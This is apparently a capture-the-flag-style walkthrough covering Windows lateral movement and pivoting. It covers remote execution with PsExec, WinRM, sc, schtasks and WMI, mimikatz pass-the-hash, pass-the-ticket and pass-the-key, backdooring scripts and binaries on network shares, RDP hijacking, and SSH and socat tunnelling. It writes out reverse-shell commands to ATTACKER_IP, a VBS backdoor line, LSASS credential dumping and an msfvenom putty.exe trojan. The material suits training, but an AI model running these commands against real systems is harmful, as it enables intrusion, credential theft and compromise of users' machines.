


# Lateral Movement and Pivoting

## Description

Learn about common techniques used to move laterally across a Windows network.
* Category: Walkthrough

## Moving Through the Network

Simply put, lateral movement is the group of techniques used by attackers to move around a network. Once an attacker has gained access to the first machine of a network, moving is essential for many reasons, including the following:
* Reaching our goals as attackers
* Bypassing network restrictions in place
* Establishing additional points of entry to the network
* Creating confusion and avoid detection.

While many cyber kill chains reference lateral movement as an additional step on a linear process, it is actually part of a cycle. During this cycle, we use any available credentials to perform lateral movement, giving us access to new machines where we elevate privileges and extract credentials if possible. With the newfound credentials, the cycle starts again.

Usually, we will repeat this cycle several times before reaching our final goal on the network. If our first foothold is a machine with very little access to other network resources, we might need to move laterally to other hosts that have more privileges on the network.

### The Attacker's Perspective

There are several ways in which an attacker can move laterally. The simplest way would be to use standard administrative protocols like WinRM, RDP, VNC or SSH to connect to other machines around the network. This approach can be used to emulate regular users' behaviours somewhat as long as some coherence is maintained when planning where to connect with what account. While a user from IT connecting to the web server via RDP might be usual and go under the radar, care must be taken not to attempt suspicious connections.

Attackers nowadays also have other methods of moving laterally while making it somewhat more challenging for the blue team to detect what is happening effectively. While no technique should be considered infallible, we can at least attempt to be as silent as possible.

### Administrators and UAC

While performing most of the lateral movement techniques introduced throughout the room, we will mainly use administrator credentials. While one might expect that every single administrator account would serve the same purpose, a distinction has to be made between two types of administrators:
* Local accounts part of the local Administrators group
* Domain accounts part of the local Administrators group.

The differences we are interested in are restrictions imposed by **User Account Control (UAC)** over local administrators (except for the default Administrator account).

By default, local administrators won't be able to remotely connect to a machine and perform administrative tasks unless using an interactive session through RDP. Windows will deny any administrative task requested via RPC, SMB or WinRM since such administrators will be logged in with a filtered medium integrity token, preventing the account from doing privileged actions. The only local account that will get full privileges is the default Administrator account.

Domain accounts with local administration privileges won't be subject to the same treatment and will be logged in with full administrative privileges.

This security feature can be disabled if desired, and sometimes we will find no difference between local and domain accounts in the administrator's group. Still, it's essential to keep in mind that should some of the lateral movement techniques fail, it might be due to using a non-default local administrator where UAC is enforced.

## Spawning Processes Remotely

This task will look at the available methods an attacker has to spawn a process remotely, allowing them to run commands on machines where they have valid credentials. Each of the techniques discussed uses slightly different ways to achieve the same purpose, and some of them might be a better fit for some specific scenarios.

### PsExec

* **Ports:** 445/TCP (SMB)
* **Required Group Memberships:** Administrators

Psexec has been the go-to method when needing to execute processes remotely for years. It allows an administrator user to run commands remotely on any PC where he has access. Psexec is one of many Sysinternals Tools.

The way psexec works is as follows:
1. Connect to `Admin$` share and upload a service binary. Psexec uses `psexesvc.exe` as the name.
2. Connect to the service control manager to create and run a service named **PSEXESVC** and associate the service binary with `C:\Windows\psexesvc.exe`.
3. Create some named pipes to handle *stdin/stdout/stderr*.

To run psexec, we only need to supply the required administrator credentials for the remote host and the command we want to run: `psexec \\MACHINE_IP -u Administrator -p PASSWORD -i cmd.exe`.

### Remote Process Creation Using WinRM

* **Ports:** 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships:** Remote Management Users

Windows Remote Management (WinRM) is a web-based protocol used to send Powershell commands to Windows hosts remotely. Most Windows Server installations will have WinRM enabled by default, making it an attractive attack vector.

To connect to a remote Powershell session from the command line, we can use the following command: `winrs -u:Administrator -p:PASSWORD -r:TARGET_IP cmd`.

We can achieve the same from Powershell, but to pass different credentials, we will need to create a PSCredential object. Once we have our PSCredential object, we can create an interactive session using the `Enter-PSSession` cmdlet. Powershell also includes the `Invoke-Command` cmdlet, which runs ScriptBlocks remotely via WinRM. Credentials must be passed through a PSCredential object as well:

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;

Enter-PSSession -Computername TARGET -Credential $credential

Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}
```

### Remotely Creating Services Using sc

* **Ports:**
  * 135/TCP, 49152-65535/TCP (DCE/RPC)
  * 445/TCP (RPC over SMB Named Pipes)
  * 139/TCP (RPC over SMB Named Pipes)
* **Required Group Memberships:** Administrators

Windows services can also be leveraged to run arbitrary commands since they execute a command when started. While a service executable is technically different from a regular application, if we configure a Windows service to run any application, it will still execute it and fail afterwards.

We can create a service on a remote host with `sc.exe`, a standard tool available in Windows. When using sc, it will try to connect to the Service Control Manager (SVCCTL) remote service program through RPC in several ways:
1. A connection attempt will be made using DCE/RPC. The client will first connect to the Endpoint Mapper (EPM) at port 135, which serves as a catalogue of available RPC endpoints and request information on the SVCCTL service program. The EPM will then respond with the IP and port to connect to SVCCTL, which is usually a dynamic port in the range of 49152-65535.


2. If the latter connection fails, sc will try to reach SVCCTL through SMB named pipes, either on port 445 (SMB) or 139 (SMB over NetBIOS).



We can create and start a service named "THMservice" using the following commands:

```cmd
sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto
sc.exe \\TARGET start THMservice
```

The "net user" command will be executed when the service is started, creating a new local user on the system. Since the operating system is in charge of starting the service, we won't be able to look at the command output.

To stop and delete the service, we can then execute the following commands:

```cmd
sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice
```

### Creating Scheduled Tasks Remotely

Another Windows feature we can use is Scheduled Tasks. We can create and run one remotely with `schtasks`, available in any Windows installation. To create a task named THMtask1, we can use the following commands:

```cmd
schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00
schtasks /s TARGET /run /TN "THMtask1"
```

We set the schedule type (`/sc`) to ONCE, which means the task is intended to be run only once at the specified time and date. Since we will be running the task manually, the starting date (`/sd`) and starting time (`/st`) won't matter much anyway.

Since the system will run the scheduled task, the command's output won't be available to us, making this a blind attack.

Finally, to delete the scheduled task, we can use the following command and clean up after ourselves: `schtasks /S TARGET /TN "THMtask1" /DELETE /F`.

## Moving Laterally Using WMI

We can also perform many techniques discussed in the previous task differently by using Windows Management Instrumentation (WMI). WMI is Windows implementation of Web-Based Enterprise Management (WBEM), an enterprise standard for accessing management information across devices.

In simpler terms, WMI allows administrators to perform standard management tasks that attackers can abuse to perform lateral movement in various ways.

### Connecting to WMI from Powershell

Before being able to connect to WMI using Powershell commands, we need to create a PSCredential object with our user and password. This object will be stored in the `$credential` variable and utilised throughout the techniques on this task:

```powershell
$username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
```

We then proceed to establish a WMI session using either of the following protocols:
* **DCOM:** RPC over IP will be used for connecting to WMI. This protocol uses port 135/TCP and ports 49152-65535/TCP, just as explained when using `sc.exe`.
* **Wsman:** WinRM will be used for connecting to WMI. This protocol uses ports 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS).

To establish a WMI session from Powershell, we can use the following commands and store the session on the `$Session` variable, which we will use throughout the room on the different techniques:

```powershell
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName TARGET -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

The `New-CimSessionOption` cmdlet is used to configure the connection options for the WMI session, including the connection protocol. The options and credentials are then passed to the `New-CimSession` cmdlet to establish a session against a remote host.

### Remote Process Creation Using WMI

* **Ports:**
  * 135/TCP, 49152-65535/TCP (DCERPC)
  * 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships:** Administrators

We can remotely spawn a process from Powershell by leveraging Windows Management Instrumentation (WMI), sending a WMI request to the Win32_Process class to spawn the process under the session we created before:

```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";

Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
CommandLine = $Command
}
```

Notice that WMI won't allow us to see the output of any command but will indeed create the required process silently.

On legacy systems, the same can be done using wmic from the command prompt: `wmic /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe"`.

### Creating Services Remotely Using WMI

* **Ports:**
  * 135/TCP, 49152-65535/TCP (DCERPC)
  * 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships:** Administrators

We can create services with WMI through Powershell. To create a service called THMService2, we can use the following command:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "THMService2";
DisplayName = "THMService2";
PathName = "net user munra2 Pass123 /add"; # Our payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
StartMode = "Manual"
}
```

And then, we can get a handle on the service and start it with the following commands:

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"
Invoke-CimMethod -InputObject $Service -MethodName StartService
```

Finally, we can stop and delete the service with the following commands:

```powershell
Invoke-CimMethod -InputObject $Service -MethodName StopService
Invoke-CimMethod -InputObject $Service -MethodName Delete
```

### Creating Scheduled Tasks Remotely Using WMI

* **Ports:**
  * 135/TCP, 49152-65535/TCP (DCERPC)
  * 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships:** Administrators

We can create and execute scheduled tasks by using some cmdlets available in Windows default installations:

```powershell
# Payload must be split in Command and Args
$Command = "cmd.exe"
$Args = "/c net user munra22 aSdf1234 /add"

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

To delete the scheduled task after it has been used, we can use the following command:

```powershell
Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"
```

### Installing MSI Packages through WMI

* **Ports:**
  * 135/TCP, 49152-65535/TCP (DCERPC)
  * 5985/TCP (WinRM HTTP) or 5986/TCP (WinRM HTTPS)
* **Required Group Memberships:** Administrators

MSI is a file format used for installers. If we can copy an MSI package to the target system, we can then use WMI to attempt to install it for us. The file can be copied in any way available to the attacker. Once the MSI file is in the target system, we can attempt to install it by invoking the Win32_Product class through WMI:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

We can achieve the same by us using wmic in legacy systems:

```cmd
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```

## Use of Alternate Authentication Material

By alternate authentication material, we refer to any piece of data that can be used to access a Windows account without actually knowing a user's password itself. This is possible because of how some authentication protocols used by Windows networks work. In this task, we will take a look at a couple of alternatives available to log as a user when either of the following authentication protocols is available on the network:
* NTLM authentication
* Kerberos authentication.

### NTLM Authentication



Before diving into the actual lateral movement techniques, let's take a look at how NTLM authentication works:
1. The client sends an authentication request to the server they want to access
2. The server generates a random number and sends it as a challenge to the client.
3. The client combines his NTLM password hash with the challenge (and other known data) to generate a response to the challenge and sends it back to the server for verification.
4. The server forwards both the challenge and the response to the Domain Controller for verification.
5. The domain controller uses the challenge to recalculate the response and compares it to the initial response sent by the client. If they both match, the client is authenticated; otherwise, access is denied. The authentication result is sent back to the server.
6. The server forwards the authentication result to the client.

The described process applies when using a domain account. If a local account is used, the server can verify the response to the challenge itself without requiring interaction with the domain controller since it has the password hash stored locally on its SAM.

### Pass-the-Hash

As a result of extracting credentials from a host where we have attained administrative privileges (by using mimikatz or similar tools), we might get clear-text passwords or hashes that can be easily cracked. However, if we aren't lucky enough, we will end up with non-cracked NTLM password hashes.

Although it may seem we can't really use those hashes, the NTLM challenge sent during authentication can be responded to just by knowing the password hash. This means we can authenticate without requiring the plaintext password to be known. Instead of having to crack NTLM hashes, if the Windows domain is configured to use NTLM authentication, we can Pass-the-Hash (PtH) and authenticate successfully.

To extract NTLM hashes, we can either use mimikatz to read the local SAM or extract hashes directly from LSASS memory. We can then use the extracted hashes to perform a PtH attack by using mimikatz to inject an access token for the victim user on a reverse shell as follows:

```cmd
mimikatz # token::revert
mimikatz # sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"
```

Notice we used `token::revert` to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work.

This would be the equivalent of using `runas /netonly` but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user.

Interestingly, if we run the whoami command on this shell, it will still show us the original user we were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.

If we have access to a linux box, several tools have built-in support to perform PtH using different protocols. Depending on which services are available to us, we can do the following:
* Connect to RDP using PtH: `xfreerdp /v:VICITM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH`
* Connect via psexec (linux version) using PtH: `psexec.exe -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP`
* Connect to WinRM using PtH: `evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH`

### Kerberos Authentication


Let's have a quick look at how Kerberos authentication works on Windows networks:
1. The user sends his username and a timestamp encrypted using a key derived from his password to the **Key Distribution Center (KDC)**, a service usually installed on the Domain Controller in charge of creating Kerberos tickets on the network. The KDC will create and send back a **Ticket Granting Ticket (TGT)**, allowing the user to request tickets to access specific services without passing their credentials to the services themselves. Along with the TGT, a **Session Key** is given to the user, which they will need to generate the requests that follow.


2. When users want to connect to a service on the network like a share, website or database, they will use their TGT to ask the KDC for a **Ticket Granting Service (TGS)**. TGS are tickets that allow connection only to the specific service for which they were created. To request a TGS, the user will send his username and a timestamp encrypted using the Session Key, along with the TGT and a **Service Principal Name (SPN)**, which indicates the service and server name we intend to access. As a result, the KDC will send us a TGS and a **Service Session Key**, which we will need to authenticate to the service we want to access. The TGS is encrypted using the **Service Owner Hash**. The Service Owner is the user or machine account under which the service runs. The TGS contains a copy of the Service Session Key on its encrypted contents so that the Service Owner can access it by decrypting the TGS.


3. The TGS can then be sent to the desired service to authenticate and establish a connection. The service will use its configured account's password hash to decrypt the TGS and validate the Service Session Key.


### Pass-the-Ticket

Sometimes it will be possible to extract Kerberos tickets and session keys from LSASS memory using `mimikatz`. The process usually requires us to have SYSTEM privileges on the attacked machine and can be done as follows:

```cmd
mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
```

Notice that if we only had access to a ticket but not its corresponding session key, we wouldn't be able to use that ticket; therefore, both are necessary.

While mimikatz can extract any TGT or TGS available from the memory of the LSASS process, most of the time, we'll be interested in TGTs as they can be used to request access to any services the user is allowed to access. At the same time, TGSs are only good for a specific service. Extracting TGTs will require us to have administrator's credentials, and extracting TGSs can be done with a low-privileged account (only the ones assigned to that account).

Once we have extracted the desired ticket, we can inject the tickets into the current session with the following command:

```cmd
mimikatz # kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
```

Injecting tickets in our own session doesn't require administrator privileges. After this, the tickets will be available for any tools we use for lateral movement. To check if the tickets were correctly injected, we can use the `klist` command.

### Overpass-the-Hash / Pass-the-Key

This kind of attack is similar to PtH but applied to Kerberos networks.

When a user requests a TGT, they send a timestamp encrypted with an encryption key derived from their password. The algorithm used to derive this key can be either DES, RC4, AES128 or AES256, depending on the installed Windows version and Kerberos configuration. If we have any of those keys, we can ask the KDC for a TGT without requiring the actual password, hence the name Pass-the-key (PtK).

We can obtain the Kerberos encryption keys from memory by using mimikatz with the following commands:

```cmd
mimikatz # privilege::debug
mimikatz # sekurlsa::ekeys
```

Depending on the available keys, we can run the following commands on mimikatz to get a reverse shell via Pass-the-Key:
* If we have the RC4 hash:
```cmd
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```
* If we have the AES128 hash:
```cmd
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```
* If we have the AES256 hash:
```cmd
mimikatz # sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
```

Notice that when using RC4, the key will be equal to the NTLM hash of a user. This means that if we could extract the NTLM hash, we can use it to request a TGT as long as RC4 is one of the enabled protocols. This particular variant is usually known as Overpass-the-Hash (OPtH).

## Abusing User Behaviour

Under certain circumstances, an attacker can take advantage of actions performed by users to gain further access to machines in the network. While there are many ways this can happen, we will look at some of the most common ones.

### Abusing Writable Shares

It is quite common to find network shares that legitimate users use to perform day-to-day tasks when checking corporate environments. If those shares are writable for some reason, an attacker can plant specific files to force users into executing any arbitrary payload and gain access to their machines.

One common scenario consists of finding a shortcut to a script or executable file hosted on a network share.

The rationale behind this is that the administrator can maintain an executable on a network share, and users can execute it without copying or installing the application to each user's machine. If we, as attackers, have write permissions over such scripts or executables, we can backdoor them to force users to execute any payload we want.

Although the script or executable is hosted on a server, when a user opens the shortcut on his workstation, the executable will be copied from the server to its `%temp%` folder and executed on the workstation. Therefore any payload will run in the context of the final user's workstation (and logged-in user account).

### Backdooring .vbs Scripts

As an example, if the shared resource is a VBS script, we can put a copy of `nc64.exe` on the same share and inject the following code in the shared script:

```vbs
CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True
```

### Backdooring .exe Files

If the shared file is a Windows binary, say `putty.exe`, we can download it from the share and use `msfvenom` to inject a backdoor into it. The binary will still work as usual but execute an additional payload silently. To create a backdoored `putty.exe`, we can use the following command:

```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Once the file has been generated, we can replace the executable on the windows share and wait for any connections using the `exploit/multi/handler` module from Metasploit.

### RDP Hijacking

When an administrator uses Remote Desktop to connect to a machine and closes the RDP client instead of logging off, his session will remain open on the server indefinitely. If we have SYSTEM privileges on Windows Server 2016 and earlier, we can take over any existing RDP session without requiring a password.

If we have administrator-level access, we can get SYSTEM by any method of our preference. For now, we will be using psexec to do so. First, we run a `cmd.exe` as administrator. From there, run `PsExec64.exe`: `PsExec64.exe -s cmd.exe`. To list the existing sessions on a server, we can use the following command: `query user`.

While we can take over active sessions as well, the legitimate user will be forced out of his session when we do, which could be noticed by them.

To connect to a session, we will use `tscon.exe` and specify the session ID we will be taking over, as well as our current SESSIONNAME: `tscon.exe <SESSION_ID> /dest:<SESSIONNAME>`.

## Port Forwarding

Most of the lateral movement techniques we have presented require specific ports to be available for an attacker. In real-world networks, the administrators may have blocked some of these ports for security reasons or have implemented segmentation around the network, preventing us from reaching SMB, RDP, WinRM or RPC ports.

To go around these restrictions, we can use port forwarding techniques, which consist of using any compromised host as a jump box to pivot to other hosts. It is expected that some machines will have more network permissions than others, as every role in a business will have different needs in terms of what network services are required for day-to-day work.

### SSH Tunneling

The first protocol we'll be looking at is SSH, as it already has built-in functionality to do port forwarding through a feature called SSH Tunneling. While SSH used to be a protocol associated with Linux systems, Windows now ships with the OpenSSH client by default, so we can expect to find it in many systems nowadays, independent of their operating system.

SSH Tunnelling can be used in different ways to forward ports through an SSH connection, which we'll use depending on the situation. To explain each case, let's assume a scenario where we've gained control over the PC-1 machine (it doesn't need to be administrator access) and would like to use it as a pivot to access a port on another machine to which we can't directly connect. We will start a tunnel from the PC-1 machine, acting as an SSH client, to the Attacker's PC, which will act as an SSH server. The reason to do so is that we'll often find an SSH client on Windows machines, but no SSH server will be available most of the time.

Since we'll be making a connection back to our attacker's machine, we'll want to create a user in it without access to any console for tunnelling and set a password to use for creating the tunnels:

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

Depending on our needs, the SSH tunnel can be used to do either local or remote port forwarding. Let's take a look at each case.

### SSH Remote Port Forwarding

In our example, let's assume that firewall policies block the attacker's machine from directly accessing port 3389 on the server. If the attacker has previously compromised PC-1 and, in turn, PC-1 has access to port 3389 of the server, it can be used to pivot to port 3389 using remote port forwarding from PC-1. Remote port forwarding allows us to take a reachable port from the SSH client (in this case, PC-1) and project it into a remote SSH server (the attacker's machine).

As a result, a port will be opened in the attacker's machine that can be used to connect back to port 3389 in the server through the SSH tunnel. PC-1 will, in turn, proxy the connection so that the server will see all the traffic as if it was coming from PC-1.

A valid question that might pop up by this point is why we need port forwarding if we have compromised PC-1 and can run an RDP session directly from there. The answer is simple: in a situation where we only have console access to PC-1, we won't be able to use any RDP client as we don't have a GUI.

By making the port available to our attacker's machine, we can use a Linux RDP client to connect. Similar situations arise when we want to run an exploit against a port that can't be reached directly, as our exploit may require a specific scripting language that may not always be available at machines we compromise along the way.

To forward port 3389 on the server back to our attacker's machine, we can use the following command on PC-1: `ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N`.

Since the `tunneluser` isn't allowed to run a shell on the Attacker PC, we need to run the `ssh` command with the `-N` switch to prevent the client from requesting one, or the connection will exit immediately. The `-R` switch is used to request a remote port forward, and the syntax requires us first to indicate the port we will be opening at the SSH server (3389), followed by a colon and then the IP and port of the socket we'll be forwarding (3.3.3.3:3389). Notice that the port numbers don't need to match, although they do in this example.

The command itself won't output anything, but the tunnel will depend on the command to be running. Whenever we want, we can close the tunnel by pressing CTRL+C as with any other command.

Once our tunnel is set and running, we can go to the attacker's machine and RDP into the forwarded port to reach the server.

### SSH Local Port Forwarding

Local port forwarding allows us to "pull" a port from an SSH server into the SSH client. In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on PC-1. That way, any host that can't connect directly to the attacker's PC but can connect to PC-1 will now be able to reach the attacker's services through the pivot host.

Using this type of port forwarding would allow us to run reverse shells from hosts that normally wouldn't be able to connect back to us or simply make any service we want available to machines that have no direct connection to us.

To forward port 80 from the attacker's machine and make it available from PC-1, we can run the following command on PC-1: `ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N`.

The command structure is similar to the one used in remote port forwarding but uses the `-L` option for local port forwarding. This option requires us to indicate the local socket used by PC-1 to receive connections (`*:80`) and the remote socket to connect to from the attacker's PC perspective (`127.0.0.1:80`).

Notice that we use the IP address `127.0.0.1` in the second socket, as from the attacker's PC perspective, that's the host that holds the port 80 to be forwarded.

Since we are opening a new port on PC-1, we might need to add a firewall rule to allow for incoming connections (with `dir=in`). Administrative privileges are needed for this:

```cmd
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80
```

Once our tunnel is set up, any user pointing their browsers to PC-1 at `http://2.2.2.2:80` and see the website published by the attacker's machine.

### Port Forwarding with socat

In situations where SSH is not available, socat can be used to perform similar functionality. While not as flexible as SSH, socat allows us to forward ports in a much simpler way. One of the disadvantages of using socat is that we need to transfer it to the pivot host (PC-1 in our current example), making it more detectable than SSH, but it might be worth a try where no other option is available.

The basic syntax to perform port forwarding using socat is much simpler. If we wanted to open port `1234` on a host and forward any connection we receive there to port `4321` on host `1.1.1.1`, you would have the following command: `socat TCP-LISTEN:1234,fork TCP4:1.1.1.1:4321`.

The `fork` option allows socat to fork a new process for each connection received, making it possible to handle multiple connections without closing. If we don't include it, socat will close when the first connection made is finished.

Note that socat can't forward the connection directly to the attacker's machine as SSH did but will open a port on PC-1 that the attacker's machine can then connect to.

As usual, since a port is being opened on the pivot host, we might need to create a firewall rule to allow any connections to that port:

```cmd
netsh advfirewall firewall add rule name="Open Port 1234" dir=in action=allow protocol=TCP localport=1234
```

If, on the other hand, we'd like to expose port 80 from the attacker's machine so that it is reachable by the server, we only need to adjust the command a bit: `socat TCP-LISTEN:80,fork TCP4:1.1.1.1:80`.

### Dynamic Port Forwarding and SOCKS

While single port forwarding works quite well for tasks that require access to specific sockets, there are times when we might need to run scans against many ports of a host, or even many ports across many machines, all through a pivot host. In those cases, **dynamic port forwarding** allows us to pivot through a host and establish several connections to any IP addresses/ports we want by using a **SOCKS proxy**.

Since we don't want to rely on an SSH server existing on the Windows machines in our target network, we will normally use the SSH client to establish a reverse dynamic port forwarding with the following command: `ssh tunneluser@1.1.1.1 -R 9050 -N`.

In this case, the SSH server will start a SOCKS proxy on port `9050`, and forward any connection request through the SSH tunnel, where they are finally proxied by the SSH client.

The most interesting part is that we can easily use any of our tools through the SOCKS proxy by using **proxychains**. To do so, we first need to make sure that proxychains is correctly configured to point any connection to the same port used by SSH for the SOCKS proxy server. The proxychains configuration file can be found at `/etc/proxychains.conf`. If we scroll down to the end of the configuration file, we should see a line that indicates the port in use for socks proxying:

```conf
[ProxyList]
socks4  127.0.0.1 9050
```

The default port is `9050`, but any port will work as long as it matches the one we used when establishing the SSH tunnel.

If we now want to execute any command through the proxy, we can use proxychains: `proxychains curl http://pxeboot.za.tryhackme.com`.

Note that some software like `nmap` might not work well with SOCKS in some circumstances, and might show altered results, so our mileage might vary.